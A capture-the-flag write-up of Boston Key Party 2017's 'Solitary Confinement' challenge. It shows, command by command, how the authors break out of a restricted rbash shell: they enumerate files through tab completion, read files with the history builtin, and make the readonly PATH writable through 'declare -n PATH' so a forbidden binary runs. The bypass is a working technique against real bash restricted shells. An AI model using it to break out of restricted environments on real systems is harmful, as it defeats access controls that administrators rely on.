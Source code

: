 ```yaml
---
layout: post
title: "Boston Key Party 2017: Solitary Confinement (pwn 99)"
author: f0rki
categories: writeup
tags: [cat/pwn, tool/rbash]
---
```


* **Category:** pwn
* **Points:** 99

## Write-up

We can ssh into a machine that provides us with `rbash` a restricted version of
the `bash` shell. 

```
-rbash-4.3$ pwd
/
```

If we try to `ls` or `pwd` it will fail. It turns out there are no commands
available except for the bash builtins. We can get a list of available commands
by using bash autocompletion.

```
rbash-4.3$ [tab]
!          ]]         builtin    compgen    declare    echo       eval       fc         getopts    in         logout     pwd        readonly   shopt      time       typeset    until
./         alias      caller     complete   dirs       elif       exec       fg         hash       jobs       mapfile    return     source     times      ulimit     wait
:          bg         case       compopt    disown     else       exit       fi         help       kill       popd       rbash      select     suspend    trap       umask      while
[          bind       cd         continue   do         enable     export     for        history    let        printf     read       set        test       true       unalias    {
[[         break      command    coproc     done       esac       false      function   if         local      pushd      readarray  shift      then       type       unset      }
```

Well that's not a lot... So what are we supposed to do? We don't have `ls` so
we need to find another way. Again bash autocompletion to the rescue:

```
-rbash-4.3$ *[tab]
bin    dev    flag   lib    lib64  
-rbash-4.3$ */*[tab]
bin/rbash                   flag/showFlag               lib/x86_64-linux-gnu        lib64/ld-linux-x86-64.so.2  
-rbash-4.3$ */*/*[tab]
lib/x86_64-linux-gnu/libc.so.6
```

This way we get a list of all executable programs. To get a list of files we
can use again the autocompletion for the first argument of a program.

```
-rbash-4.3$ bin/rbash[tab]
.bash_login    .bash_logout   .bash_profile  .bashrc        .profile       bin/           dev/           flag/          lib/           lib64/   
-rbash-4.3$ rbash dev/[tab]
null  zero  
-rbash-4.3$ rbash lib/x86_64-linux-gnu/lib[tab]
libc.so.6      libdl.so.2     libtinfo.so.5  
```

So the goal will be to run the `flag/showFlag` command. Unfortunately `rbash`

* does not allow us to change directories
* does not allow us to use `/` in command names

So next thing is that we tried to read the `showFlag` program. A small trick to
read files using only bash builtins:

```sh
function r() { history -c; export HISTSIZE=0; export HISTSIZE=10000; history -r $1; history; }
```

Unfortunately we didn't have permissions to read the executable. So somehow
need to find a way to bypass the restrictions of `rbash`. A obvious target is
the `PATH` environment variable. Unfortunately `rbash` sets it as readonly:

```
rbash-4.3$ unset -v PATH
rbash: unset: PATH: cannot unset: readonly variable
```

Then we noticed that we can declare the `PATH` variable for example as an
integer or array:

```
-rbash-4.3$ declare -i PATH
-rbash-4.3$ export
...
declare -irx PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games"
```

We tried to declare it as integer with `-i`, as array `-a` and associative
array `-A` and checked whether we could somehow modify `PATH`. This didn't give
results. Then we noticed that `bash` can declare variables as "name references"

```
-rbash-4.3$ help declare
[...]
    -n	make NAME a reference to the variable named by its value
```

We then declared `PATH` as a reference and played around. We noticed that we
can suddenly write to the `PATH` variable:

```
rbash-4.3$ declare -n PATH
rbash-4.3$ export PATH=/flag
rbash-4.3$ export
declare -x /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games="/flag"
declare -x HOME="/home/ctfuser"
declare -x LANG="en_US.UTF-8"
declare -x LOGNAME="ctfuser"
declare -x MAIL="/var/mail/ctfuser"
declare -x OLDPWD
declare -nrx PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games"
declare -x PWD="/"
declare -rx SHELL="/bin/rbash"
declare -x SHLVL="2"
declare -x SSH_CLIENT="129.27.229.25 40454 22"
declare -x SSH_CONNECTION="129.27.229.25 40454 10.0.0.51 22"
declare -x SSH_TTY="/dev/pts/44"
declare -x TERM="xterm-256color"
declare -x USER="ctfuser"
declare -x XDG_RUNTIME_DIR="/run/user/1001"
declare -x XDG_SESSION_ID="618"
rbash-4.3$ echo $PATH
/flag
rbash-4.3$ showFlag
BKP{vimjail_is_down,_fortunately_we_have_rbash_to_save_the_day}
```

Bash is weird...
